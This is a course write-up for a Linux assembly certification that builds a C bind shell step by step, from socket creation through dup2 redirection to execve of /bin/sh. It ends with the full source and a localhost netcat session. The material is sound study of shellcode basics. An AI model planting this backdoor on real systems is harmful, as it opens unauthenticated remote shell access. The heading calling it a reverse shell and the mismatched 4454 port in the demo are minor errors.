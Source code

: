 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 14183.

# Exo 2 - Reverse shellcode - Part 1 - C Bind Shell

### *int main()*

For this first exercise lets start by developping a C bind shell. Steps are:

  * Create a socket
  * Bind the socket
  * Listen on a defined port
  * Accept connection
  * Redirect stdin/stdout/stderr
  *  Run /bin/sh

For each step, **man** is used in order to find usage description of functions.

### Socket

The first step is to create a socket which will be used to listen on.
```C
SYNOPSIS
        #include <sys/types.h>
        #include <sys/socket.h>
        int socket(int domain, int type, int protocol);

DESCRIPTION
        The domain argument specifies a communication domain; 
        AF_INET             IPv4 Internet protocols          ip(7)
 
        SOCK_STREAM     Provides sequenced, reliable, two-way, connection-based byte streams.  An out-of-band data transmission mechanism may be supported.
 
        The  protocol  specifies  a  particular  protocol  to  be used with the socket.  Normally only a single protocol exists to support a particular socket  type within a given protocol family, in which case protocol can be specified as 0. 
```

Our C code is:

```C
int my_socket = socket(AF_INET, SOCK_STREAM, 0);
```

### Bind
Then socket must be bind. 

```C
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
  * *sockfd* is the socket we created, 
  * *addrlen* is len of *addr*
 addrlen specifies the size, in bytes, of the address structure pointed to by addr.
   * addr is a specific structure

The sockaddr structure myst contain:

  * the family: *AF_INET*
  * the address to listen: *INADDR_ANY*
  * the port to bind.

In order to format the port number, htons must be used:

```C
       The htons() function converts the unsigned short integer hostshort from host byte order to network byte order.
```

The bind part is:
```C
struct sockaddr_in my_sockaddr;
my_sockaddr.sin_family = AF_INET;
my_sockaddr.sin_addr.s_addr = INADDR_ANY;
my_sockaddr.sin_port = htons(4444);
bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));
```
### Listen

Lets start listening.

```C
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int listen(int sockfd, int backlog);

DESCRIPTION
       The  backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.
```
C code is:

```C
listen(my_socket, 0);
```

### Accept

Then, connections must be accepted.

```C
SYNOPSIS
       #include <sys/types.h>           /* See NOTES */
       #include <sys/socket.h>

       int accept(int sockfd, struct sockaddr *adresse, socklen_t *longueur); 
```

C code:

```C
int my_accept = accept(my_socket, NULL, NULL);
```

### Redirect

Before executing our shell we need to redirect stdin, stdout and stderr to our socket. Again, lets use the man.

```C
#include <unistd.h>
int dup3(int oldfd, int newfd, int flags);
```

As a remember, file descriptor are (https://en.wikipedia.org/wiki/File_descriptor):

  * 0 for standard input (STDIN)
  * 1 for standard output (STDOUT)
  * 2 for standard error (STDERR)

Our code may be:

```C
dup2(my_accept, 0);
dup2(my_accept, 1);
dup2(my_accept, 2);
```

Regarding C code, using a for loop do not have a huge interest, but as its for shellcoding purposes, lets use a for loop:

```C
int i;
for(i = 0; i < 3; i++)
	dup2(my_accept, i);
```

### Execve

At last we can finnaly call execve:
```C
SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);
```

```C
execve("/bin/sh", NULL, NULL);
```
### Code

Lets try to compile it by removing the includes one by one in order to remove unecessary include. Finally there is a C Bind Shell:

```C
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in my_sockaddr;
	my_sockaddr.sin_family = AF_INET;
    	my_sockaddr.sin_addr.s_addr = INADDR_ANY;
    	my_sockaddr.sin_port = htons(4444);
	bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	listen(my_socket, 0);

	int my_accept = accept(my_socket, NULL, NULL);

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_accept, i);

	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### Usage

In a first terminal:

```
cervoise@slae:~/exam/bind$ gcc bind_shell.c -o bind_shell cervoise@slae:~/exam/bind$ ./bind_shell
```

In another terminal:
```
cervoise@slae:~/slae/Shellcode$ netstat -laput |grep bind_shell
[...]
tcp        0      0 *:4444                  *:*                     LISTEN      21884/bind_shell   
[...]
cervoise@slae:~/slae/Shellcode$ nc 127.0.0.1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
cervoise@slae:~/slae/Shellcode$ nc 127.0.0.1 4454
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```
